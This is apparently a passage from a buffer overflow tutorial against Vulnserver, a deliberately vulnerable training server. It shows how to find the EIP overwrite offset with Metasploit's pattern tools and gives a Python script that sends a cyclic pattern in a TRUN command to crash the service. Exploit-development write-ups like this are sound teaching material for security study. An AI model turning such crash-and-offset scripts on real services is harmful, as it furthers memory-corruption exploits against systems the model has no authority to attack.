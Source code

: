 ####  `Day 4`

`FINDING THE OFFSET`

Since we can overwrite the EIP and we know the overwrite occurred between 1 and 2400 bytes (let’s use 3,000 moving forward for a little extra padding), we can use a couple of Ruby tools called Pattern Create and Pattern Offset to find the exact location of the overwrite.

![Image](https://imgur.com/9Q75ffV.png)

Now let locate it on our kali machine.

![Image](https://imgur.com/WeBWczb.png)

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

Pattern Create allows us to generate a cyclical amount of bytes, based on the number of bytes we specify. We can then send those bytes to Vulnserver, instead of A’s, and try to find exactly where we overwrote the EIP. Pattern Offset will help us determine that soon.

![Image](https://imgur.com/a6H1TkB.png)

Now let modify our code like that below;

```
#!/usr/bin/python 
import sys, socket
 
offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1"


try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('172.16.139.133',9999))
        s.send(('TRUN /.:/' + offset))
        s.close()

except:
        print "Error Connecting To Server" 
        sys.exit()
```
![Image](https://imgur.com/MYAd2av.png)

Cool we overwrite the program again everything appears as it did before, with Vulnserver crashing and our `TRUN` message appearing on the EAX register. Now, look at the EIP. The value is 386F4337 cool.

If we executed correctly, this value is actually part of our code that we generated with Pattern Create. Let’s try using Pattern Offset to find out.

Now let use the create_offset.rb `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

![Image](https://imgur.com/BWBMqld.png)
